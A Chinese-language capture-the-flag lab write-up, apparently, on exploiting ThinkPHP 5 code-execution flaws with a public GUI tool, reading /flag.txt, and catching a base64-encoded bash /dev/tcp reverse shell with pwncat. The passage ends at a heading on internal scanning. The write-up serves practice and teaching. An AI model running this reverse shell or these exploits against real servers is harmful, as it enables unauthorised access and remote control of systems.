使用 [bewhale/thinkphp_gui_tools: ThinkPHP 漏洞综合利用工具, 图形化界面, 命令执行, 一键 getshell, 批量检测, 日志遍历, session 包含, 宝塔绕过](https://github.com/bewhale/thinkphp_gui_tools) 直接打

首先进行漏洞检测

![img](img/image_20240724-112402.png)

发现以下漏洞信息

```plaintext
[+] 目标存在 tp5_construct_code_exec_2 漏洞
[+] 目标存在 tp5_construct_code_exec_1 漏洞
[+] 目标存在 tp5_session_include 漏洞
```

尝试进行利用

![img](img/image_20240725-112523.png)

## flag - Thinkphp

flag 文件位于 `/flag.txt`

![img](img/image_20240726-112613.png)

## Thinkphp 反弹 shell

经过检测，靶机 `Thinkphp` 可以出网，所以可以直接反弹 shell

```bash title="Thinkphp"
# /bin/bash -i >& /dev/tcp/192.168.200.129/9998 0>&1
$ echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMjAwLjEyOS85OTk4IDA+JjE= | base64 -d > /tmp/shell.sh
$ chmod +x /tmp/shell.sh
$ ls -lh /tmp/shell.sh
-rwxr-xr-x    1 www-data www-data      50 Jul 25 03:28 /tmp/shell.sh
$ /bin/bash /tmp/shell.sh
```

接收到反连的 shell

```bash title="Kali"
(local) pwncat$ connect -lp 9998
[11:30:22] received connection from 192.168.200.2:47244                                                                                                                                               bind.py:84
[11:30:23] 192.168.200.2:47244: registered new host w/ db                                                                                                                                         manager.py:957
(local) pwncat$ back
(remote) www-data@4c2afff6c232:/var/www/public$ whoami
www-data
```

## Thinkphp 内网扫描

